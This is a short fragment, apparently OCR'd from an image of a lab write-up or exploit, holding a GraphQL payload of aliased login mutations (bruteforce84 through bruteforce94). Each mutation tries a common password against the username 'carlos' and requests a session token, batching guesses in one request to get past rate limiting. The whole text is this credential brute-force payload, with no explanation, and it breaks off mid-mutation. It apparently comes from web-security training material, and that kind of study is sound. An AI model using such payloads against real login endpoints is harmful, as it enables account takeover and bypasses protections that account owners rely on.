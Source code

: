 ```bash
bruteforce84:login(input:{password: "matthew", username: "carlos"}) {
        token
        success
    }


bruteforce85:login(input:{password: "access", username: "carlos"}) {
        token
        success
    }


bruteforce86:login(input:{password: "yankees", username: "carlos"}) {
        token
        success
    }


bruteforce87:login(input:{password: "987654321", username: "carlos"}) {
        token
        success
    }


bruteforce88:login(input:{password: "dallas", username: "carlos"}) {
        token
        success
    }


bruteforce89:login(input:{password: "austin", username: "carlos"}) {
        token
        success
    }


bruteforce90:login(input:{password: "thunder", username: "carlos"}) {
        token
        success
    }


bruteforce91:login(input:{password: "taylor", username: "carlos"}) {
        token
        success
    }


bruteforce92:login(input:{password: "matrix", username: "carlos"}) {
        token
        success
    }


bruteforce93:login(input:{password: "mobilemail", username: "carlos"}) {
        token
        success
    }


bruteforce94:login(input:{password: "mom", username: "carlos"}) {
        token
        success
```